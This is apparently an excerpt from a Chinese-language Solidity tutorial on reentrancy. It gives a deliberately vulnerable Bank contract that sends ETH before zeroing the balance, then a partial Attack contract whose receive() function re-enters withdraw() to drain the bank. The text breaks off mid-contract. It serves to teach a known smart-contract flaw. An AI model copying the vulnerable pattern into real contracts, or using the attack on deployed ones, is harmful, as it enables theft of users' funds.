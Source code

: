 ```solidity
contract Bank {
    mapping (address =&gt; uint256) public balanceOf; // 余额mapping

    // 存入ether，并更新余额
    function deposit() external payable {
        balanceOf[msg.sender] &#43;= msg.value;
    }

    // 提取msg.sender的全部ether
    function withdraw() external {
        uint256 balance = balanceOf[msg.sender]; // 获取余额
        require(balance &gt; 0, &#34;Insufficient balance&#34;);
        // 转账 ether !!! 可能激活恶意合约的fallback/receive函数，有重入风险！
        (bool success, ) = msg.sender.call{value: balance}(&#34;&#34;);
        require(success, &#34;Failed to send Ether&#34;);
        // 更新余额
        balanceOf[msg.sender] = 0;
    }

    // 获取银行合约的余额
    function getBalance() external view returns (uint256) {
        return address(this).balance;
    }
}
```

## 2.2 攻击合约

``重入攻击的一个攻击点就是合约转账ETH的地方：`` **转账ETH的目标地址如果是合约，会触发对方合约的fallback（回退）函数，从而造成循环调用的可能。**

```solidity
    (bool success, ) = msg.sender.call{value: balance}(&#34;&#34;);
```

假如黑客在攻击合约中的 ``fallback()`` 或 ``receive()`` 函数中重新调用了Bank合约的 ``withdraw()`` 函数，就会造成5oneXj抢银行故事中的循环调用，不断让Bank合约转账给攻击者，最终将合约的ETH提空。

```solidity
    receive() external payable {
        bank.withdraw();
    }
```
下面我们看下攻击合约，它的逻辑非常简单，就是通过 ``receive()`` 回退函数循环调用Bank合约的 ``withdraw()`` 函数。它有1个状态变量bank用于记录Bank合约地址，以及包含4个函数：

- **构造函数:** 初始化Bank合约地址。
- **receive():** 回调函数，在接收ETH时被触发，并再次调用Bank合约的 ``withdraw()`` 函数，循环提款。
- **attack()：** 攻击函数，先Bank合约的 ``deposit()`` 函数存款，然后调用``withdraw()``发起第一次提款，之后Bank合约的 ``withdraw()`` 函数和攻击合约的receive()函数会循环调用，将Bank合约的ETH提空。
- **getBalance()：** 获取攻击合约里的ETH余额。

```solidity
contract Attack {
    Bank public bank; // Bank合约地址

    // 初始化Bank合约地址
    constructor(Bank _bank) {
        bank = _bank;
    }
    
    // 回调函数，用于重入攻击Bank合约，反复的调用目标的 withdraw 函数
    receive() external payable {
        if (bank.getBalance() &gt;= 1 ether) {
            bank.withdraw();
        }
    }
```